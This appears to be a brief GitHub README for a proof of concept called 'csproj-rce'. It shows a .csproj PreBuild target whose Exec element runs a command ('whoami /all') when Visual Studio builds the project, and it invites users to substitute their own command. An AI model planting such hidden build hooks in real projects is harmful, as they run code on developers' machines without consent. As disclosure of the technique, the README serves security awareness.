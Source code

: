 # csproj-rce
Visual Studio RCE using `PreBuild` target on .csproj file

Use the `rce-proj.csproj` file to set your own command
```csproj
<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="whoami /all" />
</Target>
```
